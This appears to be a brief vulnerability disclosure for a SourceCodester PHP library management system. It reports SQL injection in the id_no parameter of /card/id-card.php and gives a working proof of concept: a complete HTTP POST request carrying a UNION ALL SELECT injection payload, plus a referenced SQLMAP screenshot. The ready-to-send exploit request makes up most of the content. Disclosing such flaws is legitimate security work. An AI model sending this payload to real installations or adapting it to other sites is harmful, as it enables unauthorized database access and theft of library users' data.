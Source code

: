 # Library Management System with QR code Attendance and Auto Generate Library Card - SQL injections



### Vendor Homepage: 

[https://www.sourcecodester.com](https://www.sourcecodester.com/)



### Software Link: 

https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html





### /card/id-card.php

> `id_no`Parameters have SQL injection

**SQL injection POC**

```
POST /LMS/card/id-card.php HTTP/1.1
Host: 172.20.10.14
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 112
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=8l03mutpmr44pg0gv96afbujmn
Origin: http://172.20.10.14
Referer: http://172.20.10.14/LMS/card/id-card.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

id_no=' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b707171,0x686a467041767a434e5574435a446348437562755059707141736f7047694178686e787163596d6e,0x717a6a7a71),NULL#&search=
```

**SQLMAP Test**

![image-20220804234643404]([C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220804234643404.png](https://cdn.jsdelivr.net/gh/beytagh001/blog-img/image-20220804234643404.png))

















